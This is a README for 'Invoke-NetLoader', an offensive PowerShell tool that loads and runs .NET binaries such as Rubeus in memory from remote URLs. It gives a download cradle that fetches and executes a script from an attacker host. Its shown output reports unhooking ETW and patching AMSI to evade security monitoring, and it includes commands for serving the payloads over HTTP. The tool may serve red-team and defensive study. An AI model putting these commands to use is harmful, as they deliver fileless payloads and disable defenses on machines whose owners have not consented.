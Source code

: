 # Invoke-NetLoader

Build with Visual Studio by using the folowing repository: https://github.com/Flangvik/NetLoader

Used the following script to pack: https://gist.github.com/Mayfly277/2e5f34a7e7f70798d1f19c0c35f9fa0e

This tool is capable to execute .NET binaries in memory from remote paths. 
With this little modification, the complete loader can execute in the memory, and not required to copy to the target machine.


## Usage

**Load the tool into memory**

```
# From Disk but it is not OPSEC safe
PS C:\> . .\Invoke-NetLoader.ps1

# Or load with a download cradle
iex (new-object system.net.webclient).downloadstring("http://attacker.ip/Invoke-NetLoader.ps1")
```

**Execute Actions**

```bash
# In this example case I loaded Rubeus from a remote path into memory and execute commands
 PS C:\workdir> Invoke-NetLoader -Command "-path http://attacker.ip/Rubeus.exe -args hash /password:almafa"

[+] Successfully unhooked ETW!
[+] Successfully patched AMSI!
[+] URL/PATH : http://192.168.40.128:8000/Rubeus.exe Arguments : hash /password:almafa

[*] Action: Calculate Password Hash(es)

[*] Input password             : almafa
[*]       rc4_hmac             : E2142B93EF3BC842800A3EF3B464C797

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```


**Serve Payloads on remote host**

```bash
└─$ python3 -m http.server 8000     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
target.ip - - [06/Aug/2025 10:29:43] "GET /Rubeus.exe HTTP/1.1" 200 -
```

